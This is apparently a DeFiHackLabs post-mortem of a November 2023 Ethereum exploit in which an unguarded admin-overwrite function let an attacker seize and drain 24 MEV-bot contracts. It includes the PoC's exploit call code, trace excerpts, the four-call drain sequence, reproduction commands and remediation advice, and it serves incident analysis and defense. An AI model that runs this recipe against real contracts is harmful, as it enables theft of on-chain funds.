


# MEV-Bot Fleet Exploit (`0xa247…`) — Unprotected `removeAdmin()` Lets Anyone Seize and Drain 24 Bot Contracts

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). Full verbose trace:
> [output.txt](output.txt). The PoC itself is
> [test/MEV_0xa247_exp.sol](test/MEV_0xa247_exp.sol).
>
> **Source caveat:** the vulnerable contract is the *MEV-bot implementation*
> `0xB4ba49c919309ab66177aC7deCE4D5cD6ef714E7` (shared by all 24 victim
> proxies). It was **unverified** on Etherscan, so no Solidity source could be
> downloaded for it. The function behavior below is reconstructed from the
> `-vvvvv` trace (selectors, calldata, and storage diffs). The sources under
> [sources/](sources/) are the **stolen assets**
> (RailToken, BlockBank/BUMP proxy, …), not the vulnerable bot.

---

## Key info

| | |
|---|---|
| **Loss** | ~$150K — **49.63 WETH + 3.49 ETH (native) + 234,364 BUMP** + assorted ERC-20 dust, drained from **24** MEV-bot contracts |
| **Vulnerable contract** | MEV-bot implementation `0xB4ba49c919309ab66177aC7deCE4D5cD6ef714E7` (unverified), reached via 24 proxy bots |
| **Representative victim** | `0xa2473460f86e1058bdd0A2C531B15534fD403d97` ([bscscan/etherscan](https://etherscan.io/address/0xa2473460f86e1058bdd0A2C531B15534fD403d97)) — first of 24 |
| **Attacker EOA** | [`0x4e087743e8025012c4704a1953c87eeff1e6ef48`](https://etherscan.io/address/0x4e087743e8025012c4704a1953c87eeff1e6ef48) |
| **Attacker contract** | [`0x3763b7f83358171b1660ee209f327954cc463129`](https://etherscan.io/address/0x3763b7f83358171b1660ee209f327954cc463129) |
| **Attack tx** | [`0x53eeab4447db331dbb47f93fd58a95d6faa230d559acde0687f8b5f5829e7a45`](https://explorer.phalcon.xyz/tx/eth/0x53eeab4447db331dbb47f93fd58a95d6faa230d559acde0687f8b5f5829e7a45) |
| **Chain / block / date** | Ethereum mainnet / fork at 18,552,866 / Nov 2023 |
| **Compiler** | PoC `^0.8.10`; victim impl unverified |
| **Bug class** | Missing access control on a privileged admin-takeover function (`removeAdmin`) → arbitrary asset withdrawal |
| **Analysis** | [Phalcon @Phalcon_xyz](https://twitter.com/Phalcon_xyz/status/1723591214262632562) |

---

## TL;DR

A fleet of 24 nearly-identical "MEV-bot" contracts all delegate to one shared
implementation `0xB4ba49c9…`. That implementation exposes a function with
selector `0xe7d25975` — the PoC names it **`removeAdmin(...)`** — which
**rewrites the bot's owner/admin storage slots to caller-supplied addresses with
no access-control check**. Anyone can call it and make *themselves* the owner.

Once owner, the attacker calls three more now-permitted functions on each bot:

1. `0x4abe11b4` → **`setPoolToClosed()`** (flips the bot into a withdrawable state),
2. `0xd547557b` → an unnamed state-advance (bumps an internal step counter),
3. `0x90fb9dca(token, 0)` → **`withdraw(token, amount)`** with `amount = 0`
   meaning "send the bot's *entire* balance of `token`" (or native ETH when
   `token == address(0)`) to the new owner — i.e. the attacker.

The PoC loops this exact 4-call sequence over 24 victim bots, sweeping whatever
each one held: RAIL, BBANK, USDT, BUMP, native ETH, HOPR, ISP, FMT, MARSH, KEL,
CELL, UNO, KINE, TXA, MoFi, ODDZ. Non-WETH/BUMP tokens are immediately swapped to
WETH on Uniswap V2. Final attacker holdings:
**49.63 WETH + 3.49255 ETH + 234,364.30 BUMP** (≈ $150K total).

There is no clever DeFi math here — it is a pure **broken-access-control**
takeover. The only "trick" is that admin overwrite and asset withdrawal are
reachable by anyone.

---

## Background

The victims are private MEV / arbitrage bot contracts. Each is a thin proxy that
`delegatecall`s into the single implementation `0xB4ba49c919309ab66177aC7deCE4D5cD6ef714E7`,
so all 24 share the same code and the same storage layout. From the storage
diffs in the trace, the relevant slots of that layout are:

| Slot | Role (inferred from diffs) | Pre-attack value (victim #1) |
|------|----------------------------|------------------------------|
| `2` | admin / operator address | `0x1a17e083…ac4d` |
| `3` | owner address (+ low-byte flag) | `0x3904efc3…86d1` |
| `5` | a uint param / threshold | `0x16c4abbe…0000` |
| `6` | a uint param / threshold | `0x2b5e3af1…0000` |
| `7` | step / state counter | `0` |
| `9` | a small config (`50`) | `50` |
| `11` | configured token address | `0` |

The implementation's source was never verified, so we work from selectors and
behavior. The PoC author already reverse-engineered the call surface — see the
helper functions in
[test/MEV_0xa247_exp.sol:123-149](test/MEV_0xa247_exp.sol#L123-L149).

---

## The vulnerable code

No verified Solidity exists for the bot implementation, so the "code" below is
the **calldata + storage-diff evidence** straight from the trace.

### 1. `removeAdmin` (selector `0xe7d25975`) overwrites owner/admin — no auth

The PoC builds the call here
([test/MEV_0xa247_exp.sol:123-134](test/MEV_0xa247_exp.sol#L123-L134)):

```solidity
function removeAdmin(address token, address victim) internal {
    address[] memory recipients = new address[](1);
    recipients[0] = address(this);
    (bool success,) = victim.call(
        abi.encodeWithSelector(
            bytes4(0xe7d25975), address(this), address(this), tokenAddr,
            recipients, 4, 3, 2, 0, 0
        )
    );
    require(success, "Call to removeAdmin() not successful");
}
```

In the trace this call rewrites **both** privileged slots to the attacker
`0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496` (Foundry's default test address)
([output.txt:112-125](output.txt#L112-L125)):

```
0xa2473460…::e7d25975( attacker, attacker, RAIL, [attacker], 4,3,2,0,0 )
  └─ 0xB4ba49c9…::e7d25975(...) [delegatecall]
       storage changes:
         @ 3: 0x…3904efc39b16e9ce…0286d1  → 0x…7fa9385be102ac3e…3e1496   // owner := attacker
         @ 2: 0x…1a17e083f272c9bb…61ac4d  → 0x…7fa9385be102ac3e…3e1496   // admin := attacker
         @ 7: 0 → 2
         @ 5: 0x…a0100000 → 4
         @ 6: 0x…b1880000 → 3
         @ 9: 50 → 0
         @ 11: 0 → 0x…e76c6c83…a7a33d                                   // token := RAIL
```

The function takes attacker-controlled addresses and writes them into the
owner/admin slots with **no `onlyOwner`/`onlyAdmin` guard** — that is the whole
vulnerability. The trailing `4,3,2,0,0` arguments line up with the slot indices
it touches.

### 2. `setPoolToClosed` (selector `0x4abe11b4`) — opens the withdraw path

Now that the caller is owner, this succeeds and flips a flag in slot 3
([output.txt:126-132](output.txt#L126-L132)):

```
0xa2473460…::setPoolToClosed()
  └─ 0xB4ba49c9…::setPoolToClosed() [delegatecall]
       emit PoolClosed()
       @ 3: 0x…007fa9385b…3e1496 → 0x…017fa9385b…3e1496   // low byte 0 → 1 (poolClosed = true)
```

### 3. Unnamed state-advance (selector `0xd547557b`)

Bumps the same flag byte again, advancing an internal state machine
([output.txt:133-140](output.txt#L133-L140)):

```
0xa2473460…::d547557b()
  └─ 0xB4ba49c9…::d547557b() [delegatecall]
       @ 3: 0x…017fa9385b…3e1496 → 0x…027fa9385b…3e1496   // 1 → 2
```

### 4. `withdraw(token, amount)` (selector `0x90fb9dca`) — drains to owner

Called with `amount = 0`, which the bot interprets as "withdraw full balance"
([test/MEV_0xa247_exp.sol:136-149](test/MEV_0xa247_exp.sol#L136-L149),
[output.txt:141-156](output.txt#L141-L156)):

```
0xa2473460…::90fb9dca( RAIL, 0 )
  └─ 0xB4ba49c9…::90fb9dca(RAIL, 0) [delegatecall]
       RAIL.balanceOf(0xa2473460…) → 100,406.25 RAIL
       RAIL.transfer(attacker, 100,406.25 RAIL)
       emit <Withdraw>(attacker, RAIL, 100,406.25)
```

For the native-ETH victim (`token == address(0)`) it instead does a value
transfer ([output.txt:436-443](output.txt#L436-L443)):

```
0x2FbC293D…::90fb9dca( address(0), 0 )
  └─ 0xB4ba49c9…::90fb9dca(0, 0) [delegatecall]
       attacker.receive{value: 3.49255 ETH}()
       emit <Withdraw>(attacker, address(0), 3.49255e18)
```

---

## Root cause

A single missing modifier. The bot implementation lets an **arbitrary caller**
rewrite its `owner`/`admin` storage slots via `removeAdmin` (`0xe7d25975`). Every
other privileged action (`setPoolToClosed`, the `0xd547557b` step, and the
`withdraw` at `0x90fb9dca`) is gated on being the owner — but because the owner
itself is attacker-settable, those gates are vacuous.

Three properties compound it into a total loss:

1. **Owner is attacker-writable.** `removeAdmin` has no `onlyOwner` check, so
   adversary → owner is a single permissionless call. This is the bug.
2. **`withdraw(token, 0)` sweeps the entire balance.** Passing `amount = 0`
   sends 100% of any token (or native ETH) the bot holds to the owner, so one
   call per asset fully empties the bot.
3. **A whole fleet shares one implementation.** 24 proxies delegate to
   `0xB4ba49c9…`, so the same 4-call recipe drains all of them in one
   transaction — the attacker just loops over the victim list
   ([test/MEV_0xa247_exp.sol:100-102](test/MEV_0xa247_exp.sol#L100-L102)).

This is the classic "anyone can become admin" failure, not an AMM/oracle/math
bug. No flash loan, no price manipulation, no reentrancy is required.

---

## Preconditions

- The bot implementation exposes `removeAdmin` (`0xe7d25975`) **without access
  control** — true for all 24 deployed bots at the fork block.
- The bots hold withdrawable balances (ERC-20 and/or native ETH). At fork block
  18,552,866 they collectively held the assets listed in the loss table.
- **No capital is needed.** The PoC starts with `deal(address(this), 0 ether)`
  ([test/MEV_0xa247_exp.sol:40](test/MEV_0xa247_exp.sol#L40)) — the attacker
  pays only gas and walks away with everything.

---

## Step-by-step attack walkthrough

The PoC repeats one 4-call routine per victim (`exploitMevBot`,
[test/MEV_0xa247_exp.sol:111-121](test/MEV_0xa247_exp.sol#L111-L121)) across 24
bots. Numbers below are ground truth from the trace for the **first** victim
(`0xa2473460…`, holding RAIL):

| # | Call (selector) | Effect (from trace) | Evidence |
|---|-----------------|---------------------|----------|
| 1 | `removeAdmin` (`0xe7d25975`) | slot 2 (admin) and slot 3 (owner) overwritten `→ attacker`; slot 11 (token) `→ RAIL` | [output.txt:112-125](output.txt#L112-L125) |
| 2 | `setPoolToClosed` (`0x4abe11b4`) | `emit PoolClosed()`; flag byte `0 → 1` | [output.txt:126-132](output.txt#L126-L132) |
| 3 | (`0xd547557b`) | step flag `1 → 2` | [output.txt:133-140](output.txt#L133-L140) |
| 4 | `withdraw` (`0x90fb9dca`, RAIL, 0) | `RAIL.transfer(attacker, 100,406.25 RAIL)` | [output.txt:141-156](output.txt#L141-L156) |
| 5 | (PoC) `tokenToWETH(RAIL)` | swap 100,406.25 RAIL → **13.333 WETH** on Uniswap V2 | [output.txt:163-192](output.txt#L163-L192) |

The remaining 23 victims follow the identical pattern with their own token and
balance. Notable variants:

- **Victim #3** (`0xC84C76b0…`, BUMP): `withdraw(BUMP, 0)` pulls
  **181,765.38 BUMP** out of the bot ([output.txt:380-393](output.txt#L380-L393)).
  BUMP is *not* swapped — it is kept ([test/MEV_0xa247_exp.sol:114-115](test/MEV_0xa247_exp.sol#L114-L115)).
- **Victim #4** (`0x2FbC293D…`, native ETH, `token == address(0)`):
  `withdraw(0, 0)` sends **3.49255 ETH** to the attacker via `receive()`
  ([output.txt:436-443](output.txt#L436-L443)). The PoC `return`s without
  swapping for the zero-address case
  ([test/MEV_0xa247_exp.sol:116-120](test/MEV_0xa247_exp.sol#L116-L120)).
- **Several victims** (#2, #17-#20, #23) hold USDT; each drained chunk is swapped
  USDT → WETH (e.g. the final swap converts 1,499.76 USDT → 0.7326 WETH,
  [output.txt:tail](output.txt#L1933-L1979)).

---

## Profit / loss accounting

The PoC measures the attacker's balances before and after the 24-victim loop
([test/MEV_0xa247_exp.sol:94-108](test/MEV_0xa247_exp.sol#L94-L108)):

| Asset | Before | After | Gain |
|-------|-------:|------:|-----:|
| WETH | 0 | **49.628605399923295284** | +49.63 WETH (proceeds of all token→WETH swaps) |
| BUMP | 0 | **234,364.304996350508376501** | +234,364.30 BUMP (kept, not sold) |
| Native ETH | 0 | **3.492550000000000000** | +3.49255 ETH |

(`Logs` block, [output.txt:5-11](output.txt#L5-L11).) SlowMist/Phalcon valued the
total at roughly **$150K** at the time. Every gain is a direct transfer out of
the victim bots; the attacker invested only gas.

---

## Diagrams

### Sequence of the attack (per victim, looped 24×)



### Privilege state machine of a single bot

```mermaid
stateDiagram-v2
    [*] --> Owned : "deployed; owner = legit operator"
    Owned --> Hijacked : "removeAdmin() — NO AUTH<br/>owner/admin := attacker"
    Hijacked --> Closed : "setPoolToClosed() [owner-gated, now passes]"
    Closed --> Stepped : "0xd547557b() [owner-gated]"
    Stepped --> Drained : "withdraw(token, 0)<br/>full balance → attacker"
    Drained --> [*]

    note right of Hijacked
        Root cause: the gate that
        protects every other action
        (owner check) is itself
        attacker-settable.
    end note
```



### Why each call is reachable



---

## Remediation

1. **Add access control to `removeAdmin` / any owner-mutating function.** Gate
   `0xe7d25975` behind `onlyOwner` (or a multisig/timelock). An owner-setter that
   anyone can call is equivalent to having no owner at all.
2. **Never let the authorization root be set by an unauthorized caller.** Use a
   well-audited base such as OpenZeppelin `Ownable`/`Ownable2Step` or
   `AccessControl`, where ownership transfer is itself owner-gated.
3. **Gate withdrawal explicitly, independent of the owner setter.** Even if the
   owner check existed, `withdraw(token, 0)` sweeping the entire balance to a
   freely-settable address is dangerous; restrict the withdrawal target to a
   fixed, pre-configured recipient.
4. **Patch the shared implementation, not each proxy.** Because 24 bots share one
   implementation, a single fixed implementation (and upgrade) closes the bug
   fleet-wide — but it also means a single oversight exposed all 24 at once. Treat
   the shared implementation as critical, audited code.
5. **Minimize the privileged surface.** The bot exposes several
   undocumented/raw-selector entry points (`0xd547557b`, etc.). Remove unused
   privileged functions; every public selector is attack surface.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella
DeFiHackLabs repo has many unrelated PoCs that fail to compile under a
whole-project `forge build`):

```bash
_shared/run_poc.sh 2023-11-MEV_0xa247_exp --mt testExploit -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (the fork pins block
  18,552,866); most pruned public RPCs will fail to serve historical state.
- Result: `[PASS] testExploit()`.

Expected tail:

```
Ran 1 test for test/MEV_0xa247_exp.sol:ContractTest
[PASS] testExploit() (gas: 4262687)
Logs:
  Attacker WETH balance before exploit: 0.000000000000000000
  Attacker BUMP balance before exploit: 0.000000000000000000
  Attacker ETH  balance before exploit: 0.000000000000000000
  Attacker WETH balance after exploit: 49.628605399923295284
  Attacker BUMP balance after exploit: 234364.304996350508376501
  Attacker ETH  balance after exploit: 3.492550000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*References: Phalcon analysis — https://twitter.com/Phalcon_xyz/status/1723591214262632562 ;
DeFiHackLabs (MEV `0xa247…`, ETH mainnet, ~$150K). Vulnerable bot implementation
`0xB4ba49c919309ab66177aC7deCE4D5cD6ef714E7` was unverified, so function names/semantics
are reconstructed from the verbose trace.*
